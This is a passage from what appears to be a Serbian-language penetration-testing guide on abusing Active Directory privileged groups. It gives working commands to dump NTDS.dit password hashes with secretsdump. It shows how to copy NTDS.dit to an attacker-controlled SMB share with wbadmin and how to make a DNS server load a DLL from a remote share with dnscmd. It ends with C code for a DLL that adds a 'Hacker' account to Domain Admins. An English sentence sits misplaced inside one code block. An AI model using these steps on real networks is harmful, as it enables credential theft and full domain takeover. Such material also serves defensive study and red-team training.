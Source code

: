 4. Preuzmite sve hešove iz `NTDS.dit` fajla:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Korišćenje wbadmin.exe

1. Podesite NTFS datotečni sistem za SMB server na napadačkom računaru i keširajte SMB akreditive na ciljnom računaru.
2. Koristite `wbadmin.exe` za sistemsko bekapovanje i ekstrakciju `NTDS.dit`:

```cmd
net use X: \\<Napadačeva IP adresa>\naziv_deljenog_resursa /user:smbkorisnik lozinka
echo "Y" | wbadmin start backup -backuptarget:\\<Napadačeva IP adresa>\naziv_deljenog_resursa -include:c:\windows\ntds
wbadmin get versions
echo "Y" | wbadmin start recovery -version:<datum-vreme> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

Za praktičnu demonstraciju, pogledajte [DEMO VIDEO SA IPPSEC-om](https://www.youtube.com/watch?v=IfCysW0Od8w\&t=2610s).

## DnsAdmins

Članovi grupe **DnsAdmins** mogu iskoristiti svoje privilegije da učitaju proizvoljni DLL fajl sa privilegijama sistema na DNS serveru, koji se često nalazi na kontrolerima domena. Ova mogućnost pruža značajan potencijal za eksploataciju.

Za listanje članova grupe DnsAdmins, koristite:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Izvršavanje proizvoljnog DLL-a

Članovi mogu naterati DNS server da učita proizvoljni DLL (bilo lokalno ili sa udaljenog deljenog resursa) koristeći komande kao što su:

```powershell
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```
